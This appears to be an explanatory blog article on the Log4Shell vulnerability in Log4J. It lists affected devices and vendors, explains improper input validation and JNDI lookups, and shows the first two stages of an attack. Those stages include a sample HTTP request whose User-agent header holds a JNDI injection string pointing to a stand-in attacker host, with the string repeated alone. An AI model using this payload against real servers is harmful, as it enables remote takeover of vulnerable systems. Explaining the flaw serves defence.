 An almost unbelievable range of products, devices, software and hardware are vulnerable to exploitation from Log4Shell, from [medical devices](https://www.medtechdive.com/news/fda-warns-log4j-cybersecurity-risks-medical-devices/611773/#:~:text=Log4j%2C%20which%20is%20used%20to,medical%20devices%20and%20supporting%20systems) such as CT scanners and blood storage fridges, to [military systems](https://cisomag.eccouncil.org/hackers-exploit-log4j-bug-to-attack-belgium-defense-ministry/), [iPhones and Tesla vehicles](https://www.techradar.com/uk/news/log4shell-can-hack-your-iphone-and-even-a-tesla). 

Affected vendors include [Amazon Web Services](https://www.crn.com.au/news/10-vendors-affected-by-the-log4j-vulnerability-573994), BroadCom, Cisco, Fortinet, CloudFlare, Apple, Google, IBM, VMWare, [Rapid7](https://www.zdnet.com/article/log4j-flaw-puts-hundreds-of-millions-of-devices-at-risk-says-us-cybersecurity-agency/), [Oracle](https://www.zdnet.com/article/log4j-flaw-puts-hundreds-of-millions-of-devices-at-risk-says-us-cybersecurity-agency/), RedHat, Splunk and Microsoft Azure. 

The [NCSC has compiled a list of software](https://github.com/NCSC-NL/log4shell/tree/main/software) affected by the various Log4J vulnerabilities.

### Log4Shell is very, very easy to exploit

All it takes to exploit Log4Shell on a system or server is a single string of text. Once that string is injected into a vulnerable system, that system could then be completely taken over by the attacker. There are multiple ways to push the string to any one system.

## How does the Log4Shell exploit work?

Fundamentally, attackers use a very old weakness in computer software to exploit Log4Shell. The weakness is called “[improper input validation](https://www.martellosecurity.com/kb/mitre/cwe/20/)”. This means that the developers have placed too much trust in data that is ingested by an application from an outside source. Without proper cleaning and validation, data inputted by users can be used to exploit a number of common vulnerabilities, including [buffer overflow](https://www.imperva.com/learn/application-security/buffer-overflow/) and [SQL injection](https://www.imperva.com/learn/application-security/buffer-overflow/) attacks.

In the case of Log4Shell, attackers use a feature of Java called the “Java Naming and Directory Interface” (JNDI). JNDI is an API that allows Java applications to look up data and resources from other external resources. This could be a database, a configuration file, or a direction service such as LDAP. Effectively, the application is reaching out and pulling back data from another, external source. 

The string of code used to invoke JNDI is the aforementioned malicious single string of text. As previously stated, there are many ways to push the malicious JNDI code string to servers vulnerable to Log4Shell. The most common method can be simplified into five stages:

{% include elements/figure.html image="./assets/log4shellattackflow.png" caption="Attack Flow." %}

Stage 1 – The attacker inserts the JNDI lookup in a website header field that is likely to be logged:
```python
GET /test HTTP/1.1
Host: victim.com
User-agent: ${jndi:ldap://hacker.co.uk/x}
```

Step 2 – The malicious JNDI string is passed to the vulnerable Log4J instance and logged:
```python
${jndi:ldap://hacker.co.uk/x}
```
